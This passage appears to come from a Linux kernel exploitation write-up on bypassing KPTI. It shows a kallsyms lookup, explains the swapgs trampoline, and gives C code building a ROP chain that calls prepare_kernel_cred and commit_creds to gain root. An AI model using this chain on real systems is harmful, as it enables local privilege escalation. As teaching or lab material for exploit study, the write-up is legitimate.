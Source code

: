 ```sh
/ # cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81800e10 T swapgs_restore_regs_and_return_to_usermode
```

![alt text](./kpti/assets/image.png)

![alt text](./kpti/assets/image-1.png)

The key point is that the stack was pre-adjusted to point to the correct location. The subsequent pushes are copying the user-space register values — originally stored on the kernel stack and meant for iretq — to a memory area that remains accessible even after the CR3 switch triggered by KPTI. So our complete KPTI Trampoline chain is started at `0xffffffff81800e26`

```c
    uint64_t kpti_trampoline_chain = 0xffffffff81800e26;
    uint64_t pop_rdi = 0xffffffff812ef4c0;
    uint64_t pop_rcx = 0xffffffff812ea083;
    uint64_t mov_rdi_rax = 0xffffffff8160c96b;

    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = 0;
    ROP[idx++] = prepare_kernel_cred;
    ROP[idx++] = pop_rcx; // Set rcx to 0 to avoid "rep movsq qword ptr [rdi], qword ptr [rsi]" in mov_rdi_rax
    ROP[idx++] = 0;
    ROP[idx++] = mov_rdi_rax;
    ROP[idx++] = commit_creds;
```